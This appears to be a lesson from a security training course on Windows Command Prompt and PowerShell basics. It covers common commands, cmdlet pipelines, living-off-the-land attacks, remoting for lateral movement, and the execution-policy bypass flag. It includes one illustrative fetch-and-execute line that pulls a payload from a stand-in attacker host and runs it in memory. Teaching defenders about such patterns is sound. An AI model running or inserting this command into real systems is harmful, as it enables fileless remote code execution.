

# Windows Command Line Basics

Path 03 built real command-line fluency for Linux — this lesson does the same for Windows' two command-line environments, since a huge share of Windows security investigation, administration, and (from the offense side) privilege escalation happens entirely through the command line rather than clicking through GUI menus.

## Command Prompt (cmd) vs. PowerShell

Windows actually has two distinct command-line environments, and understanding both matters:



- **Command Prompt (`cmd`)** — the older, simpler environment, largely preserved for legacy compatibility. Commands generally output plain text.
- **PowerShell** — the modern, considerably more powerful environment, built around **objects** rather than plain text — command output is structured data you can filter, sort, and manipulate programmatically, much closer in spirit to how Python handles data structures (Path 04) than to traditional plain-text Unix piping.

## Essential Command Prompt commands

```cmd
dir                          :: list files in current directory (Linux's ls equivalent)
cd C:\Users\yourname         :: change directory
ipconfig /all                :: view network configuration (Linux's ifconfig/ip equivalent)
tasklist                     :: list running processes (Linux's ps equivalent)
netstat -ano                 :: view network connections (referenced in the security settings lesson)
whoami /priv                 :: show current user's privileges (referenced directly in Path 16's Windows privesc lab)
```

## Essential PowerShell commands

PowerShell's commands ("cmdlets") follow a consistent `Verb-Noun` naming pattern, making them genuinely more discoverable than traditional Unix commands once you learn the pattern:

```powershell
Get-Process                              # list running processes
Get-Service                              # list Windows services (referenced in the fundamentals lesson)
Get-LocalUser                            # list local user accounts
Get-NetTCPConnection                     # view network connections, PowerShell-native
Get-EventLog -LogName Security -Newest 20   # recent Security log entries, from the terminal
```

The real power emerges when chaining cmdlets with the pipe (`|`), exactly like Path 03's `grep`/`awk` pipelines — but operating on structured objects instead of plain text:

```powershell
Get-Process | Where-Object {$_.CPU -gt 100} | Sort-Object CPU -Descending
```

This finds every process using more than 100 CPU units and sorts by CPU usage descending — filtering and sorting structured data in a single readable line, without needing to parse plain-text output at all.

## Why attackers (and defenders) both live in PowerShell

PowerShell's power is a genuine double-edged sword, directly connecting to Path 16's threat hunting lab discussion of "living off the land": PowerShell comes pre-installed on every modern Windows system, can download and execute code directly from the internet, interact deeply with the OS, and — critically — is a completely legitimate, expected administrative tool, making PowerShell-based attacks genuinely harder to distinguish from normal admin activity than a dropped, unfamiliar executable would be.

```powershell
# A simplified illustration of the pattern flagged in Path 16's threat hunting lab:
Invoke-WebRequest -Uri "http://attacker.com/payload.ps1" | Invoke-Expression
```

This single line downloads and immediately executes remote code, entirely "fileless" (Path 17's malware families lesson) — nothing ever touches disk as a traditional executable, evading detection approaches that only scan files.

## PowerShell remoting — administration at a distance, and its risks

Beyond running commands locally, **PowerShell Remoting** (`Enter-PSSession`, `Invoke-Command`) lets an authenticated user execute commands on a *remote* Windows machine over the network, using the WS-Management protocol (WinRM) — the legitimate administrative backbone that lets IT teams manage hundreds of machines without physically touching each one. This exact capability is also precisely how an attacker who's obtained valid credentials performs **lateral movement** (Path 16's Active Directory lesson) between machines on a compromised network — `Invoke-Command -ComputerName target-pc -ScriptBlock { ... }` looks identical whether a legitimate administrator or an attacker with stolen credentials issued it, which is exactly why the Event ID 4648 (explicit-credential logon) and PowerShell script-block logging from this path's Event Viewer lesson matter so much for distinguishing the two after the fact. WinRM is disabled by default on workstations but commonly enabled on servers and in managed corporate environments — worth checking (`Get-Service WinRM`) as part of any security review, since an unnecessarily-enabled remoting service on a machine that doesn't need it is pure unused attack surface.

:::tip PowerShell execution policy — a speed bump, not a wall
Windows' default **execution policy** restricts running unsigned PowerShell scripts, but this is explicitly a safety net against accidental execution, not a genuine security boundary — it can be bypassed in numerous well-documented ways (`-ExecutionPolicy Bypass`, among others), similar in spirit to how root/jailbreak detection (Path 13) raises the bar without being unbreakable. Never rely on execution policy alone as your only defense.
:::

:::challenge Build a small investigation one-liner
Using PowerShell, write a single chained command that lists all currently running processes, filters to only those NOT running from `C:\Windows\System32\` (a common signal worth investigating further, since legitimate system processes overwhelmingly run from there), and sorts the result by process name. This is a genuinely useful, real triage technique.
:::

## Key terms

- **Cmdlet** — a PowerShell command, following the consistent `Verb-Noun` naming pattern.
- **Fileless execution** — running malicious code without ever writing a traditional executable file to disk.
- **Execution policy** — Windows' PowerShell script-execution safety restriction, bypassable and not a genuine security boundary.

## Recap

- Command Prompt is the older, simpler, text-based environment; PowerShell is modern, object-based, and dramatically more powerful for both administration and investigation.
- PowerShell's legitimate ubiquity and power make it a favorite tool for both real administrators and attackers using "living off the land" techniques.
- Chaining PowerShell cmdlets with the pipe operates on structured objects, not just plain text — a genuinely different (and more powerful) model than traditional Unix piping.
- Execution policy is a safety net against accidents, not a real security control against a determined attacker.

???refs
- [Microsoft: PowerShell documentation](https://learn.microsoft.com/en-us/powershell/) — the official, comprehensive reference.
- [MITRE ATT&CK: PowerShell (T1059.001)](https://attack.mitre.org/techniques/T1059/001/) — real-world adversary use of PowerShell, cataloged in detail.
???

**Next up →** [Windows Services & Task Manager, for Security](#/lesson/07-windows-security/windows-services-and-task-manager)
